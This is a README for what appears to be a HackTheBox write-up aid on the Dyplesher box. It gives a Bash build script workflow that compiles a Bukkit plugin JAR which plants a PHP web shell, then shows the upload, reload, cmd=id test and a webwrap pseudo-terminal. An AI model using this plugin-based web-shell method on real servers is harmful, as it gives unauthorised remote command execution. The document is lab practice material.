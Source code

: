 # HTB-Dyplesher :alien:
# Warning message
**This is _not_ a complete write-up for the Dyplesher (10.10.10.190), box always active (27-09-2020), just a small nudge for the foothold part.**

**I developed this Bash script and use these files because I didn't want to depend/use on a heavy Integrated Development Environment (IDE).**
# Description
Ceate a Bukkit plugin without using an IDE. This is a simple build script written in Bash to create your Java archive data (JAR) from a Linux platform.

The JAR file will create a PHP web shell.

I used it on the box Dyplesher from HackTheBox platform to obtain the first "pseudo" shell on the box.

(source: https://bukkit.org/threads/creating-plugin-without-an-ide.136603/page-2)
# Usage/Installation
Unzip the zip file and execute the Bash script:
```
git clone https://github.com/choupit0/HTB-Dyplesher.git
cd HTB-Dyplesher
unzip payload.zip
cd payload/
./Compile.sh
```
# Logs

```
root@HTB:~# git clone https://github.com/choupit0/HTB-Dyplesher.git
Cloning into 'HTB-Dyplesher'...
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 0
Unpacking objects: 100% (6/6), 17.05 MiB | 4.38 MiB/s, done.
```

```
root@HTB:~# cd HTB-Dyplesher/
root@HTB:~/HTB-Dyplesher# unzip payload.zip
Archive:  payload.zip
   creating: payload/
   creating: payload/htb/
   creating: payload/htb/dyplesher/
   creating: payload/htb/dyplesher/plugin/
  inflating: payload/htb/dyplesher/plugin/CreateFile.java
   creating: payload/lib/
  inflating: payload/lib/spigot-1.8.jar
   creating: payload/bin/
   creating: payload/bin/htb/
   creating: payload/bin/htb/dyplesher/
   creating: payload/bin/htb/dyplesher/plugin/
  inflating: payload/Compile.sh
   creating: payload/src/
  inflating: payload/src/plugin.yml
```

```
root@HTB:~/HTB-Dyplesher# tree
.
├── payload
│   ├── bin
│   │   └── htb
│   │       └── dyplesher
│   │           └── plugin
│   ├── Compile.sh
│   ├── htb
│   │   └── dyplesher
│   │       └── plugin
│   │           └── CreateFile.java
│   ├── lib
│   │   └── spigot-1.8.jar
│   └── src
│       └── plugin.yml
├── payload.zip
└── README.md

10 directories, 6 files
```

```
root@HTB:~/HTB-Dyplesher# cd payload/
root@HTB:~/HTB-Dyplesher/payload# ./Compile.sh
added manifest
adding: htb/(in = 0) (out= 0)(stored 0%)
adding: htb/dyplesher/(in = 0) (out= 0)(stored 0%)
adding: htb/dyplesher/plugin/(in = 0) (out= 0)(stored 0%)
adding: htb/dyplesher/plugin/CreateFile.class(in = 1410) (out= 847)(deflated 39%)
adding: plugin.yml(in = 187) (out= 146)(deflated 21%)
```

Our JAR file named "**createfile.jar**" has been created:
```
root@HTB:~/HTB-Dyplesher/payload# tree
.
├── bin
│   ├── htb
│   │   └── dyplesher
│   │       └── plugin
│   │           └── CreateFile.class
│   └── plugin.yml
├── Compile.sh
├── createfile.jar
├── htb
│   └── dyplesher
│       └── plugin
│           └── CreateFile.java
├── lib
│   └── spigot-1.8.jar
└── src
    └── plugin.yml

9 directories, 7 files
```
# Obtaining a "pseudo" shell
Put in your hosts file: dyplesher.htb + [subdomain].dyplesher.htb = 10.10.10.190

Once you have you JAR file, add the plugin and reload it on the web interface:

http://dyplesher.htb/home/add
http://dyplesher.htb/home/reload

Then, check you can launch a PHP command:

http://subdomain.dyplesher.htb/batman.php?cmd=id

uid=1001([user]) gid=1001([user]) groups=1001([user]),122([group])

Finally, install this great tool:

https://github.com/mxrch/webwrap

With your Web shell you will be able to simulate a terminal:

```
root@HTB:~/HTB/Dyplesher/webwrap# ./webwrap http://subdomain.dyplesher.htb/batman.php?cmd=WRAP

[user]@dyplesher:/var/www/[subdomain]$ ls
README.md
batman.php
index.php
```

I let you imagine the rest, no too many spoilers here ;)
